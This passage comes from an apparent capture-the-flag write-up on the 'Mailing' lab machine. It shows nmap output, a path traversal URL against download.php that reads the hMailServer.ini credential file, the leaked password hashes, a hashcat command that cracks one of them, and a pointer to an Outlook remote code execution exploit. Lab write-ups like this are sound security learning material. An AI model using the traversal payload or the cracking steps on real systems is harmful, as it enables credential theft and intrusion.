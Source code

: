    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    |_ssl-date: TLS randomness does not represent time
    | smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    993/tcp open  ssl/imap      hMailServer imapd
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    |_imap-capabilities: NAMESPACE completed QUOTA CAPABILITY IMAP4rev1 IDLE CHILDREN ACL SORT IMAP4 OK RIGHTS=texkA0001
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    ```

By analysing the page you can see that there is a `download.php` file. This
shows possible file inclusion.

As per tip, look for config files on hMailServer. There is a `hMailServer.ini`
file which has creds for admin user.

The `download.php` link has information disclosure vulnerability. It responds
with 200 for any wrong file path and 500 for correct file path. So by trial and
error in Burp repeater, found the path to `hMailServer.ini` file.

`http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.ini`

```
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
```


google search - hMailServer stores hashed in MD5.
Using hashcat to crack the hash

```bash
hashcat -m 0 -a 0 841bb5acfa6779ae432fd7a4e6600ba7 /usr/share/wordlists/rockyou.txt
# 841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

The other hash could not be cracked.


Saw
[solution](https://medium.com/@Infinite_Exploit/mailing-writeup-htb-9f3ef005b70c)

There is a vulnerability in outlook
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file?
This vulnerability exploits the
[monikor](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)
link bug in outlook.
